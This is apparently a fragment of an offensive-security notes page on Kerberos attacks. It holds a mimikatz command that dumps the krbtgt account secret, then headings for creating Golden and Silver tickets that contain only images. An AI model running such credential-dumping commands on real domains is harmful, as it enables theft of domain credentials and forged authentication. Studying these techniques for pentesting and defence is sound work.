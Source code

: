 <mark style="color:green;">**`mimikatz# lsadump::lsa /inject /name:krbtgt`**</mark>

<figure><img src="../../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

### Create a Golden

<figure><img src="../../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

### Create a Silver Ticket

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>
